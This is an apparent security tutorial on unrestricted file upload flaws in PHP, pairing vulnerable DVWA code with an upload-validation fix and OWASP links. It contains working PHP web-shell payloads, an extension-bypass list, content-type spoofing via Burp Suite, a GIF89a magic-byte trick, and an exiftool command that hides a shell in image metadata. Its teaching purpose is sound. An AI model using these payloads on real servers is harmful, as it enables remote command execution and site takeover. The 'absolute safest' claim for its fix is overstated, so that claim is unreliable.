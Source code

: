 # Website Vulnerabilities - Unrestricted File Upload
> December 23rd, 2024
----------------------------------------------------------

Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system or database, forwarding attacks to back-end systems, client-side attacks, or simple defacement. It depends on what the application does with the uploaded file and especially where it is stored.

There are really two classes of problems here. The first is with the file metadata, like the path and file name. These are generally provided by the transport, such as HTTP multi-part encoding. This data may trick the application into overwriting a critical file or storing the file in a bad location. You must validate the metadata extremely carefully before using it.

The other class of problem is with the file size or content. The range of problems here depends entirely on what the file is used for. See the examples below for some ideas about how files might be misused. To protect against this type of attack, you should analyse everything your application does with files and think carefully about what processing and interpreters are involved.

**PHP Extensions**

```
.php
.php3
.php4
.phpt
.pht
.phtml
.jpeg.php
.jpg.php
.phar
.pgif
.png.php
etc...
```

```php
<?php
	system($_GET['cmd']);
?>
```

Examples of vulnerable code and how to exploit them:

```php
 <?php
    if (isset($_POST['Upload'])) {

            $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
            $target_path = $target_path . basename( $_FILES['uploaded']['name']);

            if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
                
                echo '<pre>';
                echo 'Your image was not uploaded.';
                echo '</pre>';
                
              } else {
            
                echo '<pre>';
                echo $target_path . ' succesfully uploaded!';
                echo '</pre>';
                
            }

        }
?> 
```

This code is vulnerable because it doesn't do any checks on the file type at all. Therefore, we can upload any files we want, including a php backdoor.

Example 2:

```php
 <?php
    if (isset($_POST['Upload'])) {

            $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
            $target_path = $target_path . basename($_FILES['uploaded']['name']);
            $uploaded_name = $_FILES['uploaded']['name'];
            $uploaded_type = $_FILES['uploaded']['type'];
            $uploaded_size = $_FILES['uploaded']['size'];

            if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)){


                if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
                
                    echo '<pre>';
                    echo 'Your image was not uploaded.';
                    echo '</pre>';
                    
                  } else {
                
                    echo '<pre>';
                    echo $target_path . ' succesfully uploaded!';
                    echo '</pre>';
                    
                    }
            }
            else{
                echo '<pre>Your image was not uploaded.</pre>';
            }
        }
?> 
```

This code is still vulnerable due to the fact that we can manipulate the content-type header using Burp Suite. When we intercept requests with Burp Suite, when we upload that file, we can change the `content-type` into whatever we want. If you don't believe this, try it out! 

```html
<!DOCTYPE html>
<html>
<body>

<form action="upload.php" method="post" enctype="multipart/form-data">
  <p>Select image to upload:</p>
  <input type="file" name="fileToUpload" id="file">
  <input type="submit" value="Upload Image" name="submit">
</form>

</body>
</html>

```

```php
<?php
	if (isset($_POST['submit'])) {
		$fileType = $_FILES['file']['type'];
		echo $fileType;
	}
?>
```

Manipulate the `content-type` tag to anything you want.

Now let's get back on track, we can manipulate this by changing the `content-type` tag to `image/jpeg` or `image/png` or `image/gif`

You will then see we are able to successfully upload our PHP Backdoor

If you want the absolute safest option of uploading files, here's how you do it:

```php
<?php
	$target_dir = "uploads/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["tmp_name"]);

	if (isset($_POST["submit"])) {
        $file = $_FILES["fileToUpload"];

        $fileName = $_FILES["fileToUpload"]["name"];
        $fileTmpName = $_FILES["fileToUpload"]["tmp_name"];
        $fileSize = $_FILES["fileToUpload"]["size"];
        $fileError = $_FILES["fileToUpload"]["error"];
        $fileType = $_FILES["fileToUpload"]["type"];

	    $fileExt = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));

        $allowed_ext = array('jpg', 'jpeg', 'png');

        $allowed_mime = array('image/png', 'image/jpeg');
        
        $get_mime = mime_content_type($_FILES["fileToUpload"]["tmp_name"]);

        if (!in_array($get_mime, $allowed_mime)) {
            echo "Invalid MIME";
            return;
        }

        if (!in_array($fileExt, $allowed_ext)) {
            echo "You can't upload file of this type";
            return;
        }

        if ($fileError !== 0) {
            echo "There was an error uploading your file";
            return;
        }

        if ($fileSize > 100000) {
            echo "Your file is too big";
            return;
        }

        $succUpload = move_uploaded_file($fileTmpName, $target_file);

        if ($succUpload) {
            echo "Successful file upload"; 
        } else {
            echo "Unsuccessful file upload";
            return;
        }
    } else {
        header("Location: /index.php?message=Enter submit button");
    }
?>
```

The reason why this is the safest option is because we are actually checking the file extension and MIME type using **mime_content_type()** function.

You can additionally move the file to outside the web directory or give the file a unique ID using uniqid() function. Additionally, make sure the permissions for the file is `664`, or permissions that won't give executable permission.

You can also check if a file with the same filename exists, and if it does, return an error. 

## GIF89a;

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```php
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## Secrets in Images

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

```bash
mv lo.jpg lo.php.jpg
```

**Resources**
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- 
- https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
